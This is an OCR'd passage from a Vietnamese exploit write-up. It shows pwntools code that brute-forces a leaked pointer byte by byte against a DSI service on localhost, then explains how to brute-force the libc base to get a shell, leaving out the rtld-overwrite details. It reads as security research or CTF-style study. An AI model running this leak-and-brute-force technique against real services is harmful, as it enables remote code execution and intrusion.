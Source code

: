 ```c

leak_addr = b""
while len(leak_addr) < 6:
    for i in range(255, -1, -1):
        io = remote("127.0.0.1", "5566")
        payload = b'\x01'+ p8(0x10+len(leak_addr)+1)+ b'a'*0x10 + leak_addr + p8(i)
        io.send(gen_dsi(payload))
        try:
            a = io.recv()
            leak_addr += p8(i)
            log.success('Find! {}'.format(hex(i)))
            io.close()
            break
        except:
            io.close()

log.success(hex(u64(leak_addr.ljust(8, b"\x00"))))
```

- Khi đó giá trị ta bruteforce được là một giá trị nằm trên `libc.so`, nằm trong `segment anon` ở giữa `ld.so`. 

![bruteforce.png](./images/bruteforce.png)

### [2] Stage 2: Bruteforce LIBC base => getshell.

- Vấn đề khi bruteforce là giá trị ta leak được chưa chắc đã đúng là giá trị gốc của ptr bởi vì chỉ cần là một địa chỉ ghi được trong chương trình thì vẫn sẽ có gái trị trả về từ server.
>Lợi dụng việc chunk được phân bổ từ mmap là 0x1000 và khoảng cách giữa các vùng như `ld.so base` và `libc.so base` hay là start của các `segment anon` (những cái này là các vùng được chọn ra do không lưu data nên dùng cho mmap) với libc đều là bội số của 0x1000.

=> Tiến hành xóa ba byte cuối của giá trị leak được rồi bruteforce giá trị của libc bằng cách thử liên tục các giá trị đó và sẽ có một cái đúng được thử giúp ta bật được shell.

`(Mình sẽ không đề cập sâu đến kỹ thuật ghi đè rtld và reverseshell ở đây vì nó là technique khai thác chung, bài này mình chỉ xoáy sâu vào vấn đề của nó nằm ở việc bruteforce).`

![rtld.png](./images/rtld.png)
